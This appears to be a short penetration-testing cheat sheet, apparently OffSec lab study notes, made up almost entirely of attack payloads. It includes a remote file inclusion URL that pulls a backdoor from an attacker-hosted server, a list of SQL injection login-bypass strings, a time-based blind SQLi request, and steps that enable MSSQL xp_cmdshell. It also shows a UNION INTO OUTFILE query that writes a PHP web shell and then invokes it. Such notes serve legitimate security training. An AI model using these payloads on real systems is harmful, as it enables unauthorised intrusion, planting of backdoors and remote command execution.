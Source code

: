 - Remote file inclusion

```powershell
1. Obtain a php shell
2. host a file server 
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

## SQL Injection

```powershell
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

- Blind SQL Injection - This can be identified by Time-based SQLI

```powershell
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

```powershell
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from web, then follow below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```
